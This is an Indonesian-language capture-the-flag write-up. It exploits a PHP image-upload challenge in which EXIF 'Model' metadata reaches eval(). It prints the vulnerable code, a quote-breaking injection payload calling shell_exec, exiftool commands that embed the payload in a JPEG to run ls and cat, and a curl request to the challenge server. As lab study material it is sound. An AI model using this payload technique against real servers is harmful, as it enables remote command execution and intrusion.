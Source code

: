 # Write up 

## Task detail

Main main yuk
http://128.199.226.249/eat/

Source:
https://github.com/nikkoenggaliano/Badimageupload



## Problem

Diberikan sebuah halaman web dengan tampilan seperti ini.



![1548839787152](C:\Users\Nikko Enggaliano\AppData\Roaming\Typora\typora-user-images\1548839787152.png)



Seperti upload file gambar biasa dengan validasi yang hanya membolehkan mengupload file dengan exstensi [jpg, jpeg] Menurut source `index.php` yang diberikan sebagai berikut.



```php
$allowed = array('jpg', 'jpeg');
$path = pathinfo($_FILES['flag']['name']);
$ext = strtolower($path['extension']);
		
//verify ext
if(!in_array($ext, $allowed)){
	die('Just allowed jpg/jpeg');
}
```



Validasi yang lain hanya mengecek besar file yang tidak boleh lebih dari 2Mb dan gambar yang diupload harus memiliki lebar dan tinggi.



```php
//verify size
if($_FILES['flag']['size'] > 2000000){
	die('Sorry just allowed less than 2 Mb');
}

//verify image
$data = getimagesize(realpath($_FILES['flag']['tmp_name']));
$width = $data[0];
$height = $data[1];
if(empty($width) || empty($height)){
    die('Please upload image!');
}
```



Oke secara simple hanya boleh mengupload gambar asli. Mari kita coba.



![1548840258556](C:\Users\Nikko Enggaliano\AppData\Roaming\Typora\typora-user-images\1548840258556.png)



Setelah mengupload gambar yang kita upload akan di tampilkan lagi dengan keterangan `waktu` `height` dan `width` 

Mari lihat ke source `render.php` 



```php
$read = exif_read_data($nama);	
if(isset($read['Model'])){
	$model .= (string) $read['Model'];	
}else{
	$model .= "Hacker";
}
$height = $read['COMPUTED']['Height'];
$width = $read['COMPUTED']['Width'];
$epoch = date('Y-M-D H:i:s',$read['FileDateTime']);
}

```



Oke pada variable `$read` memangil fungsi read exif data, Kemudian ada sebuah pengecekan apakah ada exif data model jika tidak akan diisi dengan `Hacker` Selanjutnya hanya memparsing exif `waktu` `height` dan `width`. 



## Bugs

Pada proses pemanggilan variable hasil exif ada yang paling menarik sebagai berikut.



```php+HTML
<h4 class="media-heading"> Hey <?php echo(eval("print '$model';")) ?></h4>
```



Variable `$model` di print menggunakan `eval()` Hmm, Meskipun `eval` dapat diisi dengan hal hal seperti fungsi php atau shell ada yang menyebabkan sedikit tricky untuk menginjectnya. Karena didalam eval terdapat kutip yang cukup tricky juga.



## Exploitasion

Sebelum memikirkan bagaimana menginject kodenya kedalam gambar, Mari kita experimen dulu bagaimana menginject payload kedalam eval tersebut.



```php
<?php 
$model = "shell_exec('whoami')";
echo(eval("print '$model';"));
```



Asusmsi saya dengan seperti itu bisa tereksekusi. Ternyata tidakkk!  Dan payload yang saya rancang akhirnya bentuknya seperti ini.=

`';echo shell_exec('whoami');//` Oke sedikit saya explain.



1. Kutip dan semicolon `';`  diawal akan membuat kode berbentuk menjadi seperti ini
   -  echo(eval("print ''; ")) ;
2.  echo shell_exec('whoami'); akan menjadi syntax baru di dalam eval menjadi seperti ini
   - echo(eval("print ''; echo shell_exec('whoami'); ")) ;
3.  // pada akhir akan membuat syntax kebelakan menjadi comenting atau tidak dianggap
   - echo(eval("print ''; echo shell_exec('whoami');// ")); 



## Development the payload 

Kita bisa mengisi exif data dengan tools exiftools di unix kalian bisa menginstall dengan `sudo apt install libimage-exiftool-perl`



Selanjutnya mengisi gambar dengan payload.



```bash
$ exiftool -model="';echo shell_exec('ls');//" 851368_1.jpg
    1 image files updated
$
```



Kita mengisi data model dengan payload `ls` dan hasilnya.



![1548841811887](C:\Users\Nikko Enggaliano\AppData\Roaming\Typora\typora-user-images\1548841811887.png)



Okey terlihat setelah `Hey` ada file file, Yang paling menarik adalah `wwwwwwwwrite.php ` mari kita dapatkan sourcenya.



```bash
$ exiftool -model="';echo shell_exec('cat wwwwwwwwrite.php ');/
/" 851368_1.jpg
    1 image files updated
$
```



Dan didapatkan hasil sebagai berikut.



```php
<?php 
$data = $_GET['hack'];
$buka = fopen("solver.txt", "a+");
fwrite($buka, $data."\n");
fclose($buka);
?>
```



Ternyata pada file ini kita bisa menuliskan nama kita :D 



```sh
$ curl 128.199.226.249/wwwwwwwwrite.php?hack=Nepska
```



Terima Kasih!